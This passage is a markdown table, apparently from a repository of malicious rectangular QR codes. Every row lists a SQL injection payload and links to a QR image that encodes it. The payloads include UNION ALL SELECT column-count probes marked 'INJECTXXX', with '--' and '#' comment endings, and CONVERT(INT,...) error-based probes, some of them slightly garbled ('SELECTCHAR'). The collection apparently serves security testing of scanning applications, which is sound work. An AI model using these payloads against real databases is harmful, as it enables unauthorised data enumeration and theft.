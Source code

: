 | `AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)))` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/452.png) |
| `AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/453.png) |
| `UNION ALL SELECT 'INJ'\|\|'ECT'\|\|'XXX',2,3,4` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/457.png) |
| `UNION ALL SELECT 'INJ'\|\|'ECT'\|\|'XXX',2,3,4,5` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/458.png) |
| `UNION ALL SELECT 'INJ'\|\|'ECT'\|\|'XXX',2,3,4,5,6` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/459.png) |
| `UNION ALL SELECT 'INJ'\|\|'ECT'\|\|'XXX',2,3,4,5,6,7` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/460.png) |
| `UNION ALL SELECT 'INJ'\|\|'ECT'\|\|'XXX',2,3,4,5,6,7,8` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/461.png) |
| `UNION ALL SELECT 'INJ'\|\|'ECT'\|\|'XXX',2,3,4,5,6,7,8,9` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/462.png) |
| `UNION ALL SELECT 'INJ'\|\|'ECT'\|\|'XXX',2,3,4,5,6,7,8,9,10` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/463.png) |
| `UNION ALL SELECT 'INJ'\|\|'ECT'\|\|'XXX',2,3,4,5,6,7,8,9,10,11` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/464.png) |
| `UNION ALL SELECT 'INJ'\|\|'ECT'\|\|'XXX',2,3,4,5,6,7,8,9,10,11,12` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/465.png) |
| `UNION ALL SELECT 'INJ'\|\|'ECT'\|\|'XXX',2,3,4,5,6,7,8,9,10,11,12,13` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/466.png) |
| `UNION ALL SELECT 'INJ'\|\|'ECT'\|\|'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/467.png) |
| `UNION ALL SELECT 'INJ'\|\|'ECT'\|\|'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/468.png) |
| `UNION ALL SELECT 'INJ'\|\|'ECT'\|\|'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/469.png) |
| `UNION ALL SELECT 'INJ'\|\|'ECT'\|\|'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/470.png) |
| ` UNION ALL SELECT 'INJ'\|\|'ECT'\|\|'XXX',2,3-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/473.png) |
| ` UNION ALL SELECT 'INJ'\|\|'ECT'\|\|'XXX',2,3,4-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/474.png) |
| ` UNION ALL SELECT 'INJ'\|\|'ECT'\|\|'XXX',2,3,4,5-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/475.png) |
| ` UNION ALL SELECT 'INJ'\|\|'ECT'\|\|'XXX',2,3,4,5,6-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/476.png) |
| ` UNION ALL SELECT 'INJ'\|\|'ECT'\|\|'XXX',2,3,4,5,6,7-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/477.png) |
| ` UNION ALL SELECT 'INJ'\|\|'ECT'\|\|'XXX',2,3,4,5,6,7,8-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/478.png) |
| ` UNION ALL SELECT 'INJ'\|\|'ECT'\|\|'XXX',2,3,4,5,6,7,8,9-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/479.png) |
| ` UNION ALL SELECT 'INJ'\|\|'ECT'\|\|'XXX',2,3,4,5,6,7,8,9,10-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/480.png) |
| ` UNION ALL SELECT 'INJ'\|\|'ECT'\|\|'XXX',2,3,4,5,6,7,8,9,10,11-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/481.png) |
| ` UNION ALL SELECT 'INJ'\|\|'ECT'\|\|'XXX',2,3,4,5,6,7,8,9,10,11,12-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/482.png) |
| ` UNION ALL SELECT 'INJ'\|\|'ECT'\|\|'XXX',2,3,4,5,6,7,8,9,10,11,12,13-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/483.png) |
| ` UNION ALL SELECT 'INJ'\|\|'ECT'\|\|'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/484.png) |
| ` UNION ALL SELECT 'INJ'\|\|'ECT'\|\|'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/485.png) |
| ` UNION ALL SELECT 'INJ'\|\|'ECT'\|\|'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/486.png) |
| `UNION ALL SELECT 'INJ'\|\|'ECT'\|\|'XXX',2,3,4#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/490.png) |
| `UNION ALL SELECT 'INJ'\|\|'ECT'\|\|'XXX',2,3,4,5#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/491.png) |
| `UNION ALL SELECT 'INJ'\|\|'ECT'\|\|'XXX',2,3,4,5,6#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/492.png) |
| `UNION ALL SELECT 'INJ'\|\|'ECT'\|\|'XXX',2,3,4,5,6,7#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/493.png) |